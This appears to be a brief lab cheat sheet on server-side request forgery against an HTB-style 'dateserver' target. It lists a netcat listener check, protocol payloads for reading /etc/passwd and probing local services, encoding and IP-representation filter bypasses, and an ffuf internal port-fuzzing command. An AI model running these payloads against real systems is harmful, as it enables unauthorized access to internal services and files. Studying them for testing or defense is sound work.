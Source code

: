 nc -lvnp 8000

`connect to your own ip if you see its connected you got ssrf.`
### Common Protocols for SSRF:

- `http://127.0.0.1/file:///etc/passwd` → Access local files.
    
- `gopher://dateserver.htb:80/...` → Use the gopher protocol to send arbitrary requests.
    
- `dict://127.0.0.1:11211/info` → Query dictionary services.
    
- `ftp://127.0.0.1:21` → Access FTP servers.
    
- `file://` → Access local files.
    
- `php://` → PHP stream wrappers (highly dangerous).
    
- `data://` → Data encoding.
    
- `https://` → Accessing internal HTTPS servers.
    

### Advanced SSRF Bypass Techniques:

- **URL Encoding**: `http://127.0.0.1%3A80`
    
- **Double Encoding**: `http://127.0.0.1%253A80`
    
- **Alternative IP Representations**:
    
    - **Octal**: `http://0177.0.0.1`
        
    - **Hexadecimal**: `http://0x7F.0x00.0x00.0x01`
        
    - **IPv6 Abuse**: `http://[::1]:80`
        
- **DNS Rebinding**: Change IP resolutions dynamically.
    
- **Varying Ports**: Bypass filters using different ports.

`fuzz the application for open ports to see which one is open`

    `ffuf -w ./ports.txt -u http://172.17.0.2/index.php \
    `-X POST -H "Content-Type: application/x-www-form-`urlencoded" \
   `-d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" \
    `-fr "Failed to connect to"`